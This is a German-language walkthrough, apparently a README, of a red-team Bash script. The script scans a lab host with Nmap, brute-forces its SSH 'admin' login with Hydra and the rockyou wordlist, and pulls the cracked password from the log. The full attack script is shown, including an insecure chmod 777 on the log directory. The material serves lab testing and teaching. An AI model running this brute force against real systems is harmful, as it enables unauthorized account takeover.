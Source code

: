 # Red-Team Attack Script - Erklärung

Dieses Bash-Skript simuliert einen Angriff auf einen SSH-Dienst. Es führt einen Portscan mit Nmap durch und versucht dann einen Brute-Force-Angriff mit Hydra. **Nur in Testumgebungen verwenden!**

---

## ⚙️ 1. Kopfzeile und Sicherheitseinstellungen

```bash
#!/bin/bash
set -euo pipefail
```

- `#!/bin/bash`: Ausführung mit der Bash-Shell.
- `set -euo pipefail`:
  - `-e`: Abbruch bei Fehler.
  - `-u`: Fehler bei undefinierten Variablen.
  - `-o pipefail`: Fehler in einer Pipe führt zum Skriptabbruch.

---

## 📁 2. Variablendefinition

```bash
LOG_DIR="/logs"
MAIN_LOG="$LOG_DIR/attack.log"
NMAP_LOG="$LOG_DIR/nmap.txt"
HYDRA_LOG="$LOG_DIR/hydra.txt"
TARGET_HOST="ssh-target"
WORDLIST="/usr/share/wordlists/rockyou.txt"
```

Definiert Speicherorte für Logs, Zielhost und Passwortliste.

---

## 📅 3. Log-Funktion

```bash
log() {
    local msg="$1"
    echo "[$(date '+%Y-%m-%d %H:%M:%S')] $msg" | tee -a "$MAIN_LOG"
}
```

Gibt Nachrichten mit Zeitstempel in die Konsole und in die Log-Datei aus.

---

## ✅ 4. Vorbereitungschecks

```bash
log "Starte Angriff auf Ziel: $TARGET_HOST"
mkdir -p "$LOG_DIR"
chmod 777 "$LOG_DIR"
```

Erstellt Log-Verzeichnis und setzt Berechtigungen.

```bash
for tool in nmap hydra; do
    if ! command -v "$tool" >/dev/null 2>&1; then
        log "Tool nicht gefunden: $tool"
        exit 1
    fi
done
```

Prüft, ob die Tools `nmap` und `hydra` vorhanden sind.

```bash
if [ ! -f "$WORDLIST" ]; then
    log "Wordlist nicht gefunden: $WORDLIST"
    exit 1
fi
```

Prüft, ob die Passwortliste existiert.

---

## 🔍 5. Portscan mit Nmap

```bash
nmap -sV -p 22,80,443 "$TARGET_HOST" -oN "$NMAP_LOG" >> "$MAIN_LOG" 2>&1
```

- Scannt Ports: 22 (SSH), 80 (HTTP), 443 (HTTPS)
- Erkennt Dienstversionen mit `-sV`
- Speichert Ergebnis in Log-Dateien

---

## 🔓 6. Brute-Force Angriff mit Hydra

```bash
hydra -l admin -P "$WORDLIST" -t 8 -vV -f -e nsr ssh://$TARGET_HOST:22 -o "$HYDRA_LOG"
```

- Brute-Force-Versuch auf SSH mit Benutzer `admin`
- `-t 8`: 8 gleichzeitige Verbindungen
- `-f`: Abbruch bei erstem Erfolg
- `-e nsr`: Testet auch leere Passwörter, Benutzername usw.

```bash
FOUND_PASS=$(grep -o "password: [a-zA-Z0-9]*" "$HYDRA_LOG" | tail -1 | cut -d' ' -f2)
```

Extrahiert gefundenes Passwort aus der Logdatei.

---

## 🏁 7. Abschlussmeldung

```bash
log "[+] Angriff abgeschlossen: $(date '+%Y-%m-%d %H:%M:%S')"
```

Gibt abschließende Erfolgsmeldung mit Zeitstempel aus.


